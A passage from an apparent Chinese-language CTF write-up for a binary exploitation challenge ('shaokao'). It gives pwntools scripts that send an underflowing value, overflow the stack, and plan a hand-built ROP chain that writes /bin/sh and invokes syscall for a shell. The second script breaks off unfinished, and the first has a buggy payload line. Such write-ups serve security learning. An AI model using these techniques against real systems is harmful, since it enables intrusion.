```python

io.sendline('-100000')

io.sendline('4')

io.sendline('5')

pause( )

offset = 0x20 + 8
paylaod = offset*b'a' + p

io.sendline(paylaod)

pause( );

io.interactive()
```
#### 使用ropper
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685372455750-4648c932-8c18-47ee-ba9d-20da3aec53d2.png#averageHue=%23060504&clientId=u6d9848d8-7586-4&from=paste&height=716&id=uf729e92f&originHeight=1182&originWidth=1356&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=346307&status=done&style=none&taskId=u08e7c6f5-374a-4602-bbdf-bc028442935&title=&width=821.8181343183729)<br />我用ropper生存的攻击，是失败的。
> 但是，ropper很适合用来构造rop链时候的辅助

#### 手动构造ROP链接
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685374101249-eb060b94-1ad5-4b47-81ac-c77895a8fb82.png#averageHue=%23060302&clientId=u321c515a-fa18-4&from=paste&height=151&id=u8789d147&originHeight=249&originWidth=1183&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=29839&status=done&style=none&taskId=u888a37a6-3e30-468a-a350-945cbe46604&title=&width=716.9696555299669)<br />注意到，写入的name地址是固定的，所以可以考虑往这里写/bin/sh<br />虽然本题无system，但是存在syscall，所以考虑syscall调用<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685374241277-16f7dcd2-f0d4-4daa-b1f7-70a32a375ddc.png#averageHue=%23150a04&clientId=u321c515a-fa18-4&from=paste&height=351&id=ufc92d9eb&originHeight=579&originWidth=1175&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=245785&status=done&style=none&taskId=u9af5d164-c876-447f-b8c4-fdc56626223&title=&width=712.1211709617169)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685374484043-b34e9543-9ace-437d-a341-c8167d2fee61.png#averageHue=%23140904&clientId=u321c515a-fa18-4&from=paste&height=234&id=u6e0841e2&originHeight=386&originWidth=1151&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=139340&status=done&style=none&taskId=ue73bf5d0-b589-4104-b612-d4ecfd27668&title=&width=697.575717256967)
```c
from pwn import *

elfname = './shaokao'

local = 1
if local:
    p = process(elfname)
else:
    p = remote('123.56.236.235', 30501)
elf = ELF(elfname)


context.log_level = 'debug'
context.arch = 'amd64'
context.binary = elfname


r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))


loginfo = lambda tag, addr: log.success(tag + " -> " + hex(addr))
def menu(ch):
    sla(">",str(ch))
def chuan(ch,num):
    menu(2)
```